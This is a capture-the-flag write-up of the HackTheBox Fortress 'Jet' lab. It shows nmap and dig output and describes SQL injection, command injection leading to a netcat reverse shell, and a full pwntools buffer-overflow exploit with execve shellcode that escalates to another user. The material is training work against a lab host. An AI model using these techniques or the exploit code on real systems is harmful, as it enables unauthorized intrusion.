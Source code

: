 # HackTheBox Fortress Jet Writeup
## Nmap
```bash
Nmap scan report for 10.13.37.10
Host is up, received user-set (0.18s latency).
Scanned at 2024-02-07 12:27:48 +08 for 1513s
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:f6:49:80:81:cf:f0:07:0e:5a:ad:e9:8e:1f:2b:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzfo72P9KbpK9EZIE/AdtfSawGO5rjNM4GOu1Te5M2Z576c7aEVWv+284kw4OQ6JxQtFL56QsVaxRwxY9jGdpluJw5AWQpASy/Rx8q2JT7yGv0yGI8+tAIjLOMNmq5Qt6IjbDiSbL+gp6a+AsA0Mvm9OUYxBDM+LRsKFjwLDJCzFVKMFGc+gNrYJwpRa9RADsXN/19ogVYG8v9GvqFAJygMyTqVM0fbX3dDcAlMWgcHu81wMmQQGznjLe2gTY/sFAhASAfieVnSYIF11amofP8eUd+6jWL1wSlhRcW+j15tsPcotcfdpCrUJMFXq2tumXfNLJUWhv75Rf8pUeVobsx
|   256 54:e2:7e:5a:1c:aa:9a:ab:65:ca:fa:39:28:bc:0a:43 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLz7MT1sqbOHsYtNwWDfYJW8uCAPUL+zMJrW2DvIM7a9jG2RI40LNKjtiYv+M6DXjTWr3DK21kIWWK4TKMEl5Wo=
|   256 93:bc:37:b7:e0:08:ce:2d:03:99:01:0a:a9:df:da:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEEtJp2PzxXAhVXs6nNbgJXgRbLCiB/hcGJY5IgBKfS4
53/tcp    open  domain   syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp    open  http     syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx on Debian!
5555/tcp  open  freeciv? syn-ack ttl 63
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, adbConnect: 
|     enter your name:
|     [31mMember manager!
|     edit
|     change name
|     gift
|     exit
7777/tcp  open  cbt?     syn-ack ttl 63
9201/tcp  open  http     syn-ack ttl 63 BaseHTTPServer 0.3 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET
|_http-title: Site doesn't have a title (application/json).
60006/tcp open  unknown  syn-ack ttl 63
```

## Flag 1 Connect
http://10.13.37.10<br>
![Flag 1](/image/Fortress%20Jet%20F1.png)

## Flag 2 Digging In
```bash
dig @10.13.37.10 -x 10.13.37.10 

; <<>> DiG 9.19.19-1-Debian <<>> @10.13.37.10 -x 10.13.37.10
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 52896
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;10.37.13.10.in-addr.arpa.	IN	PTR

;; AUTHORITY SECTION:
37.13.10.in-addr.arpa.	604800	IN	SOA	www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800

;; Query time: 347 msec
;; SERVER: 10.13.37.10#53(10.13.37.10) (UDP)
;; WHEN: Wed Feb 07 12:31:06 +08 2024
;; MSG SIZE  rcvd: 109
```
After adding www.securewebinc.jet to /etc/hosts visit www.secureweb.inc.jet
![Flag 2](/image/Fortress%20Jet%20F2.png)

## Flag 3 Going Deeper
In Burp we can see the web application is constantly calling to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/stats.php
Visiting http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/ lead us to a login page.


## Flag 4 Bypass Authentication
Error message when attempting to sign in with admin:admin shows that admin user exists. Username parameter is vulnerable to SQL injection. Get the user's password hash with SQLmap and crach it with hashcat. 
![Flag 4](/image/Fortress%20Jet%20F4.png)

## Flag 5 Command
Trigger a post request to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/email.php through the admin dashboard "Quick email" form. Start a netcat listener and receive a reverse shell through command injection.
![Flag 5](/image/Fortress%20Jet%20F5.png)
```bash
rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.13.37.10] 54576
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ ls -la
ls -la
total 120
drwxr-x---  8 root www-data  4096 Jan  3  2018 .
drwxr-x---  3 root www-data  4096 Dec 20  2017 ..
-rw-r--r--  1 root root        33 Dec 20  2017 a_flag_is_here.txt
-rwxr-x---  1 root www-data   157 Jan  3  2018 auth.php
-rwxr-x---  1 root www-data    39 Dec 20  2017 badwords.txt
drwxr-x--- 32 root www-data  4096 Dec 20  2017 bower_components
drwxr-x---  6 root www-data  4096 Oct  9  2017 build
-rwxr-x---  1 root www-data    82 Dec 20  2017 conf.php
-rwxr-x---  1 root www-data 44067 Dec 27  2017 dashboard.php
-rwxr-x---  1 root www-data   600 Dec 20  2017 db.php
drwxr-x---  5 root www-data  4096 Oct  9  2017 dist
-rwxr-x---  1 root www-data   820 Dec 27  2017 dologin.php
-rwxr-x---  1 root www-data  2881 Dec 27  2017 email.php
-rwxr-x---  1 root www-data    43 Dec 20  2017 index.php
drwxr-x---  2 root www-data  4096 Dec 20  2017 js
-rwxr-x---  1 root www-data  3606 Dec 20  2017 login.php
-rwxr-x---  1 root www-data    98 Dec 20  2017 logout.php
drwxr-x--- 10 root www-data  4096 Dec 20  2017 plugins
-rwxr-x---  1 root www-data    21 Nov 14  2017 stats.php
drwxrwxrwx  2 root www-data  4096 Dec 20  2017 uploads
```

## Flag 6 Overflown
```python
import os

os.environ['PWNLIB_NOTERM'] = '1'

from pwn import *

p = remote('10.13.37.10', 60006)
# receive until we see this text
p.recvuntil("Oops, I'm leaking! ")
# store leaked libc base address
leak=int(p.recvuntil("\n"),16)
log.info('Libc address: {}'.format(hex(leak)))
p.recvuntil("> ")
leak2= p64(int(leak))
# execve x64 shellcode 30 bytes - https://www.exploit-db.com/exploits/37362/
payload = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload += "A"*(72-len(payload))
payload += str(leak2)
p.sendline (payload)

p.interactive()
```
```bash
www-data@jet:/tmp$ python bof.py
python bof.py
[x] Opening connection to 10.13.37.10 on port 60006
[x] Opening connection to 10.13.37.10 on port 60006: Trying 10.13.37.10
[+] Opening connection to 10.13.37.10 on port 60006: Done
[*] Libc address: 0x7fff808f2a90
[*] Switching to interactive mode
id
id
uid=33(www-data) gid=33(www-data) euid=1005(alex) groups=33(www-data)

ls -la /home/alex
total 916
drwxrwx--- 6 alex alex       4096 Feb  5 06:52 .
drwxr-xr-x 8 root root       4096 Apr  1  2018 ..
-rw-r--r-- 1 root root          0 Dec 28  2017 .bash_history
-rwxrwx--- 1 alex alex        220 Dec 27  2017 .bash_logout
-rwxrwx--- 1 alex alex       3771 Dec 27  2017 .bashrc
drwx------ 2 alex alex       4096 Feb  5 06:15 .cache
drwxr-x--- 3 alex alex       4096 Feb  5 06:46 .config
drwx------ 2 alex alex       4096 Feb  5 06:47 .gnupg
-rwxrwx--- 1 alex alex        655 Dec 27  2017 .profile
drwx------ 2 alex www-data   4096 Feb  5 06:13 .ssh
-rw-r--r-- 1 root root        659 Jan  3  2018 crypter.py
-rw-r--r-- 1 root root       1481 Dec 28  2017 encrypted.txt
-rw-r--r-- 1 root root       7285 Dec 27  2017 exploitme.zip
-rw-r--r-- 1 root root         27 Dec 28  2017 flag.txt
-rw-r--r-- 1 alex www-data      0 Feb  5 06:13 kik
```

